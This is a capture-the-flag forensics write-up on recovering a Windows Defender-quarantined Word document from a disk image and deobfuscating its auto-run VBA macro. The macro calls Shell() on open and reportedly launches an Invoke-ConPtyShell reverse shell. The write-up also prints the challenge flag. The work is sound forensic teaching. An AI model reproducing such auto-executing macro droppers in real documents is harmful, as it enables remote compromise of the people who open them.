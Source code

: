 # Quarantine
**Category**: Forensics
**Author**: samiko
**Difficulty**: Hard (500pts)

### Description
I received this document from my friend which promised cute cat pictures. But as it turns out, my friend had been hacked yesterday and the document was actually a virus! Good thing my antivirus caught it before I opened it.

I have attached a disk image of my computer, can you use your forensics skills to find out who hacked my friend?

### Solution
Use [AccessData FTK Imager](https://www.exterro.com/ftk-product-downloads/ftk-imager-version-4-7-1) to import the AD1 disk image (File -> Add Evidence Item -> Image File), then export all files (File -> Export Files). If using Linux, the AD1 file can be opened with [Autopsy](https://www.autopsy.com/download/) using the [AD1 Extractor](https://github.com/markmckinnon/Autopsy-Plugins/tree/master/AD1_Extractor) plugin.

After exporting the files, by checking the `MPDetection` log in `\ProgramData\Microsoft\Windows Defender\Support`, we find out a document by the name `snowy.docm` was quarantined by Windows Defender.

```
2024-08-21T00:20:12.891 DETECTION HackTool:Win32/Mimikatz!pz containerfile:C:\Users\Marino\Desktop\snowy.docm 
2024-08-21T00:20:12.891 DETECTION HackTool:Win32/Mimikatz!pz file:C:\Users\Marino\Desktop\snowy.docm->word/embeddings/oleObject1.bin->(Ole Stream 0)->mimikatz.exe 
```

When a file is quarantined by Windows Defender, a few things happen:
- Metadata of when, why, and how the file was quarantined is stored in a `QuarantineEntry` file, which is RC4-encrypted and saved to the `\ProgramData\Microsoft\Windows Defender\Quarantine\Entries` folder.
- Contents of the file is stored in a `QuarantineEntryResourceData` file, which is also RC4-encrypted and saved to the `\ProgramData\Microsoft\Windows Defender\Quarantine\ResourceData` folder.[^1]

[^1]: https://blog.fox-it.com/2023/12/14/reverse-reveal-recover-windows-defender-quarantine-forensics/

Using open source tools such as [maldump](https://github.com/NUKIB/maldump) and [defender-dump](https://github.com/knez/defender-dump), we can extract the contents of the quarantined file.

`$ maldump -l ./exported-files`
```
--- Microsoft Defender ---
C:\Users\Marino\Desktop\snowy.docm
C:\Users\Marino\Desktop\eicar.txt
```
`$ maldump -a ./exported-files`
```
Exported 2 object(s) into 'quarantine.tar'
Written 2 row(s) into file 'quarantine.csv'
```
`$ tar xvf quarantine.tar`
```
Microsoft Defender/dc0f92e5cd84fa02465f13a3b8f453d0
Microsoft Defender/44d88612fea8a8f36de82e1278abb02f
```

We can check the file types of the extracted files:

`$ file ./Microsoft\ Defender/*`
```
./Microsoft Defender/44d88612fea8a8f36de82e1278abb02f: EICAR virus test files
./Microsoft Defender/dc0f92e5cd84fa02465f13a3b8f453d0: Microsoft Word 2007+
```

The file beginning with `44d8` is an EICAR antivirus test file and can be ignored. We're only interested in the file beginning with `dc0f`, which is a Word document. Since Word documents are functionally ZIP files, we can unzip it:

`$ unzip dc0f92e5cd84fa02465f13a3b8f453d0 -d snowy`

The Word document contains a VBA macro stored in the binary file `vbaProject.bin`, which we can decompile with [pcode2code](https://github.com/Big5-sec/pcode2code/) or `oledump`:

`$ pcode2code ./snowy/word/vbaProject.bin -o macro.vba`

`$ cat macro.vba`

```vb
Sub Document_New()
  
End Sub

Sub Document_Open()
  
    c = Chr(CLng("&H2fcb") - 12123) & Chr(1966143 / CLng("&H4531")) & ...
        ...
    gg = Shell(c, 1)

End Sub
```

The decompiled VBA code is obfuscated, but we can spot that the variable `c` is passed to the `Shell()` function as its `PathName` argument. We can defeat the obfuscation and identify what command would be executed by replacing the `Shell()` function with one that will print the `c` variable, such as `MsgBox()` (if running as VBA in a macro) or `Console.WriteLine()` (if running as VB.NET), then running the modified code.

If the Microsoft Office suite is not available, an online compiler (e.g. https://www.onlinegdb.com/online_vb_compiler) can be used to run the VBA code. However, `c` needs to be declared first, and quotes surrounding each `long` value need to be removed for the code to be compatible with VB.NET. For example:

```vb
Module VBModule
    Sub Main()
        Dim c As String
        c = Chr(CLng(&H2fcb) - 12123) & Chr(1966143 / CLng(&H4531)) & ... 
            ...
        Console.WriteLine(c)
    End Sub
End Module
```

![Solved using online compiler](solved.png)

The flag can be found in the host parameter for the `Invoke-ConPtyShell` reverse shell script.

**Flag:** `quack{574Y_h0M3_4nD_Qu4R4n71N3!!11}`